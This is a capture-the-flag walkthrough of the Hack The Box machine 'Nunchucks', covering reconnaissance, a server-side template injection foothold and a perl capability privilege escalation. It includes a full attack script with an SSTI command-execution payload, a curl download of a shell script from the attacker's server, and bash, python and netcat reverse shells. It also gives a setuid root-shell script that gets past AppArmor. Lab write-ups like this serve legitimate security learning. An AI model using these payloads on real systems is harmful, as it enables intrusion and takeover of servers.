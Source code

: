 # Nunchucks

## Remote Discovery
> Note: the box IP has been added to the `/etc/hosts` file as `nunchucks.htb`

### Nmap Scan
An `nmap -Sc -Sv nunchucks.htb` yields:
```
...
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
...
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
...
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)\
...
```

So we've got a website. Lets take a look and also use some gobuster to make our lives easier.

### Gobuster Scan
For a dir scan, we'll have to get creative, as an invalid page still gives a 200 status. Luckily the response seems to be the same length every time if
it is incorrect. So we'll run this:
```bash
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -k --exclude-length 45 -u https://nunchucks.htb > gb_common.txt

$ cat gb_common.txt
...
/assets               (Status: 301) [Size: 179] [--> /assets/]
/Login                (Status: 200) [Size: 9172]
/login                (Status: 200) [Size: 9172]
/privacy              (Status: 200) [Size: 19134]
/Privacy              (Status: 200) [Size: 19134]
/signup               (Status: 200) [Size: 9488]
/terms                (Status: 200) [Size: 17753]
```

### Entry Point Search

We can look all over the place for an exploit... but I don't think we'll find one. Even doing some `sqlmap` goodness on the login and signup pages yield nothing... which leads us to more discovery.


### Gobuster Part 2
Now we'll search for subdomains using `ffuf` (Fuzz Faster U Fool):
```bash
$ ffuf -k -u https://nunchucks.htb -H "Host: FUZZ.nunchucks.htb" -w /usr/share/wordlists/dirb/small.txt -fl 547 > ffuf_small.txt

$ cat ffuf_small.txt
store                   [Status: 200, Size: 4029, Words: 1053, Lines: 102]
```

Ah! So there is a store to this as well at `https://store.nunchucks.htb`. Now we're getting somewhere.


### Foothold

On the store site, there is a form that submits an email address to `/api/submit`, where (after some poking around) we find that it is vulnerable to an `SSTI` attack (server-side template injection). Now we can hopefully use some template injections to get a basic shell on the machine.

## Basic shell
To simplify the ease of attacking the machine, I've created this simple script to get a basic shell as `david`:
```bash
$ cat shell.sh

#!/bin/bash

# Define some variables
if [[ -z $1 ]]; then
        PORT=5001
else
        PORT=$1
fi
IP=$(ifconfig tun0 | grep 'inet ' | cut -d: -f2 | awk '{print $2}')
TMPFILE=$( mktemp --tmpdir=. )
TMPFILE=$( echo ${TMPFILE:2} )
cat << EOF> $TMPFILE
bash -i >& /dev/tcp/$IP/$PORT 0>&1 && exit 1
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("'$IP'",'$PORT'));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' && exit 1
nc -e /bin/sh $IP $PORT && exit 1
xterm -display $IP:$PORT && exit 1
EOF
C1="curl http://$IP/$TMPFILE > /tmp/shell.sh"
C2="/bin/bash /tmp/shell.sh &"

# Define functions
function send_command {
        COMMAND=$1
        if [[ -z $COMMAND ]]; then
                COMMAND="pwd"
        fi
        #echo "Sending command $COMMAND..." ## Debugging...
        RESPONSE=$(curl -s -k -H "Content-Type: application/json" https://store.nunchucks.htb/api/submit -d '{"email":"{{range.constructor(\"return global.process.mainModule.require('"'child_process'"').execSync('"'$COMMAND'"')\")()}}"}')
        R1=$(echo ${RESPONSE:70})
        LEN=$( expr length "$R1" )
        if [[ $LEN -gt 5 ]]; then
                echo -e $( echo ${R1::-5} )
        fi
}

function cleanup {
        echo "Removing shell files"
        rm $TMPFILE
        send_command "rm /tmp/shell.sh"
}
trap cleanup EXIT # run the cleanup command on script exit

# Run the reverse shell stuff

## Start http server
python3 -m http.server 80 &
pid=$!
sleep 1

## Get the reverse script
send_command "$C1"
sleep 1

## Stop the http server
kill "${pid}"

## Start a nc listener and run the connection
{ sleep 2; res=$( send_command "$C2" ); } &
nc -lvnp $PORT
```

## Privilege Escalation

To get our root shell, we will use `pearl` as we have the `cap_setuid+ep` enabled. We also note that when we attempt this, we are denied a root shell:
```bash
$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
$
```

We are being denied this by `apparmor`. Fortunately, there is an explot wherein if we start a script with a shebang (`#!`) then we can skip the checks for some reason...
```bash
$ cat /tmp/pe.pl

#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);

exec "/bin/sh"

$ /tmp/pe.pl
#
```

And thus, we have a root shell!
